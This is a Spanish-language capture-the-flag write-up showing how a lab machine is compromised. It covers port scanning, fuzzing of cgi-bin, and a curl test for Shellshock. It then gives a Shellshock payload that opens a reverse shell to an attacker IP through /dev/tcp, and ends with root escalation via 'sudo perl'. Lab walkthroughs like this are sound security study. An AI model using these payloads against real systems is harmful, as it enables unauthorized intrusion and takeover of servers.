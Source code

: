 Empezamos listando los puertos abiertos: 

![image](https://user-images.githubusercontent.com/122020487/227734927-1d08866e-35e0-42b4-a802-09ee5d913842.png)

Vemos que solo tenemos el puerto 80 disponible para atacar ya que el puerto 2222 es ssh y no tenemos credenciales, por lo tanto entramos a la web viendo el siguiente contenido: 

![image](https://user-images.githubusercontent.com/122020487/227735008-08d49cee-aea2-4ffb-8c9a-f67c350a0225.png)

Como no vemos nada con lo que podamos empezar, comenzamos con el fuzzing de la web: 

![image](https://user-images.githubusercontent.com/122020487/227735075-73406ff3-13fb-448f-b525-2577c18b7286.png)

Vemos dos directorios en este caso nos interesa cgi-bins ya que a priori icons no debería ser de interés, por lo que procedemos a fuzzear el path de cgi-bin. Ya sabemos que este path contiene scripts y que puede ser vulnerable a shellshock por lo que procedemos a buscar los scripts que hay dentro del directorio:

wfuzz -c --hc=404 -t 200 -w /home/kali/Tools/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -z list,sh-pl-cgi-ps1-py http://10.10.10.56/cgi-bin/FUZZ.FUZ2Z 
![image](https://user-images.githubusercontent.com/122020487/227735718-8d380e7b-4b3c-46b6-9a5e-f8d09a7103d0.png)

Hemos obtenido el script user.sh, por lo que si hacemos una petición al directorio se nos descargará el script: 

![image](https://user-images.githubusercontent.com/122020487/227735833-bc3621c8-80d3-43ec-a41a-24ecea5ae521.png)

Ahora procedemos con nmap a comprobar si este path es vulnerable a shellshock: 

![image](https://user-images.githubusercontent.com/122020487/227736032-8eaed6b7-2d65-430d-9af5-38fd22462638.png)

También para saber si es vulnerable podemos usar la siguiente petición: 

curl -H 'User-Agent: () { :; }; echo; echo web vulnerable' 'http://10.10.10.56/cgi-bin/user.sh'
![image](https://user-images.githubusercontent.com/122020487/227736234-d021e631-daf6-4619-aa8e-25361232a8fe.png)

Como vemos, el path es vulnerable por lo que empezamos a explotar la vulnerabilidad enviandonos una web shell: 

curl -H 'User-Agent: () { :; }; echo; /bin/bash -c "bash -i >& /dev/tcp/10.10.16.6/333 0>&1"' 'http://10.10.10.56/cgi-bin/user.sh'

Una vez hemos obtenido la webshell mediante netcat podemos ejecutar comandos en el propio servidor y obtener la flag del usuario:

![image](https://user-images.githubusercontent.com/122020487/227736480-40b7ae33-2c88-4580-b947-678209bc00fe.png)

La escalada es bastante fácil, lanzamos el comando sudo -l y vemos que podemos usar sudo con perl:

![image](https://user-images.githubusercontent.com/122020487/227736513-2e18f97d-1cdd-4665-8691-328f804e0e0e.png)

Por lo que conseguimos escalar privilegios con el siguiente comando: 

sudo perl -e 'exec "/bin/bash";'

![image](https://user-images.githubusercontent.com/122020487/227736596-71021373-88cd-4ea4-b66a-452d940cda63.png)
